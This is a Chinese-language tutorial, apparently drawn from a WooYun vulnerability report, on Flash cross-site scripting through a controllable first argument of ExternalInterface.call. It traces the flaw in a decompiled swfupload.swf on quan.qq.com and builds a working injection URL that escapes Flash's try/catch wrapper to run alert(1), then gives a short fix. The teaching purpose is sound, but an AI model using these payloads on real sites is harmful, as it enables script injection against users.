






# 15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]

> 来源：[15\. Flash Xss 进阶 [ExternalInterface.call 第一个参数]](http://www.wooyun.org/bugs/wooyun-2010-016532)

## 简要描述

除了上一节讲到的 `navigateToURL/getURL` 之外呢，另一个经常存在 XSS 缺陷的 as 函数就是 `ExternalInterface.call`，此函数作为 FLASH 与宿主页面 javascript 通信的接口，一般来说，有“2”个参数，第一个参数为所调用 js 函数名，后续的其他参数则为所调用的 js 函 数的参数。那么在参数可控的情况下，不论是第一个参数或是后续参数可控，我们均能加以利用实现 XSS。本节先说一说第一个参数可 控的情况。

1\. 先从程序员的角度说下基础知识，有时候，我们需要在 FLASH 里调用当前页面中的 javascript 函数，例如：一个简单的需求，我们 要在游戏加载完成后，执行弹出 1 的操作。

javascript 代码: `alert(1)`

as 代码 `ExternalInterface.call("alert","1");`

2\. 有的程序员就会觉得，直接弹出 1 太丑了吧。于是他自己写个 js 的函数

```
function myalert(str){
    //显示一个漂亮的浮动层，并且把 str 显示在上面。
} 
```

然后在 as 里 `ExternalInterface.call("myalert","1");`

3\. 又有一天，另外一个程序员觉得上面那个程序员写的东西不错，但是他的 JS 函数名不叫 myalert，于是喊那个程序员改下 as 代码。 于是那个程序员觉得，免得以后老是有人喊我改代码，他就将代码写成了下面这个样子。

```
var func:String=root.loaderInfo.parameters.func; //接受 FLASH 所带的 func 参数 
ExternalInterface.call(func,"1"); 
```

[这样一来，其他想用这个 FLASH 的人，不需要修改 FLASH，只需要调用 FLASH 的时候带上参数即可。 比如我的 JS 函数是 newalert, 我只需要按照下面这么调用： [`some.com/xxx.swf?func=newalert`](http://some.com/xxx.swf?func=newalert)

4\. 上述过程提高了程序的可重用性，为开发人员带来了极大的便利，但是却是缺乏安全考虑的。 攻击者可以采用以下的方式来执行自己的代码

```
http://some.com/xxx.swf?func=(function({alert("hi jack")}) 
```

5\. 为了方便理解，我们可以将

```
ExternalInterface.call("函数名","参数 1"); 
```

看成 JS 里的

```
函数名("参数 1"); 
```

而 FLASH 里实际最后执行的 JS 代码，形式如下（至于下面这句哪里来的，暂时不表）：

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

因而 函数名 部分也可以写为 `(function(){alert("hi jack")})` 的形式。

6\. 上面说的是理论基础，有了这个基础，我们来看实例，就比较简单了。 [`quan.qq.com/swf/swfupload.swf`](http://quan.qq.com/swf/swfupload.swf)

7\. 怎么反编译，见上一篇。我们来看怎么查找缺陷。

8\. 因为这是一个 AS3.0 的 FLASH 文件，我们首先确定 FLASH 是否有接受参数。 as3.0 接受参数的方法，所有参数存放在 `root.loaderInfo.parameters` 对象里。 例如 `aaa.swf?a=1&b=2&c=3` ,那么 `root.loaderInfo.parameters` 则等于

```
{ 
    "a":1,
    "b":2,
    "c":3
} 
```

9\. 我们可以定位到 movieName 变量



可以看出，FLASH 的 movieName 参数，存放到了 this.movieName 中。

10\. 进一步， `this.movieName` 被带入了到了 `this.flashReady_Callback` 及其它变量。



```
this.flashReady_Callback = (("SWFUpload.instances[\"" + this.movieName) + "\"].flashReady"); 
```

11\. 我们再进一步看看，`this.flashReady_Callback` 被用到了哪里。



12\. 再接着看看调用 `this.flashReady_Callback` 的 Simple 函数是啥样子的。



可以看到，最终这个参数被放到 `ExternalInterface.call` 的第一个参数中执行了。

13\. 是不是很激动。我们来假设一下，按下面调用 FLASH [`quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa`](http://quan.qq.com/swf/swfupload.swf?movieName=aaaaaaaa) 那么 `this.flashReady_Callback` 就等于以下内容。 `SWFUpload.instances["aaaaaaaa"].flashReady`

最终调用的是 `ExternalInterface.call('SWFUpload.instances["aaaaaaaa"].flashReady');`

14\. 如果我们要调用自己的 JS 代码，就需要构造闭合，但是你会发现有一定问题。。 我们最多能够造成下面的模样。

```
ExternalInterface.call('SWFUpload.instances["aaa"];
function SWFUpload(){};
SWFUpload["aaa"].flashReady'); 
```

但是这样是无法正确执行的，因为 `SWFUpload.instances` 没有被定义，从而 `SWFUpload.instances["aaa"]`会失败。

15\. 怎么办呢？这里就要拿出我们第 5 步里的知识了。我们把“函数名”换成 call 的第一个参数内容。变成下面的形式。

```
try { flash toXML(SWFUpload.instances["aaaaaaaa"].flashReady("参数 1")) ; } catch (e) { "&lt;undefined/&gt;"; } 
```

我们再基于以上代码来构造，

```
try { flash toXML(SWFUpload.instances["aaa"])}catch(e){alert(1)};//"].flashReady("参数 1")) ; } catch (e){ "<undefined/>"; } 
```

图片解析:



```
try {
    flash toXML(SWFUpload.instances["aaa"]) //此行代码，因为 SWFUpload 未定义，出错，跳转到 catch 部分
}catch(e){
    alert(1); //这里将会被执行。
};
//"].flashReady("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

16\. 最后，我们把构造的代码，放进 FLASH 的参数里

```
http://quan.qq.com/swf/swfupload.swf?movieName=aaa"])}catch(e){alert(1)};// 
```

可以看到成功执行 `alert(1)`



修复方案：

对传入 call 的字符串进行判断或过滤操作。